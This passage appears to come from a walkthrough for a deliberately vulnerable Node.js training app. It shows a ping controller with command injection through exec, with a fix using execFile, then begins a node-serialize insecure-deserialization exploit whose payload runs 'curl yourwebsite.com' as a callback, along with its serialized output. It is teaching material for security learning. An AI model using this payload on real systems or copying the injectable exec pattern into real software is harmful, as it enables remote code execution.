 **Controller: /controllers/vuln_controller.js**

```js
const ping_post = (req, res) => {
    const ping = req.body.ping;
    const ping1 = req.body.ping1;
    if (ping) {
        exec('ping -c 3 ' + req.body.ping, function (err, stdout, stderr) {
            output = stdout + stderr;
            res.render('ping', {
                output: output,
                pingoutput: null
            });
        });
    }
```

### Fix

Use child_process package method **execFile** that starts a specific program and takes an array of arguments.

## 2. Insecure Deserialization

Application is using node-serialize method unserialize to parse the preference cookie, your goal is to acheive the RCE. 

### Exploit


**Step 1:** Create a serialized payload using node-serialize module.


```js
// serialize.js
var serialize = require('node-serialize')

// change yourwebsite.com to your host to receive callback
var payload = {payload: function(){require('child_process').exec('curl yourwebsite.com', function(error, stdout, stderr){console.log(stdout)})}} callback

console.log(serialize.serialize(payload))
```

Save the above code in a file and run it you will get the serialized payload.

```bash
> node serialize.js
{"payload":"_$$ND_FUNC$$_function(){require('child_process').exec('curl yourwebsite.com', function(error, stdout, stderr){console.log(stdout)})}"}
```

Now we have a serialized payload that can be deserialized using unserialize() function but the code will not execute until we trigger the function corresponding to the `payload` property to do that we can use the immediately invoked function expression for calling the function by adding `()` after the function, our final payload will look like this:
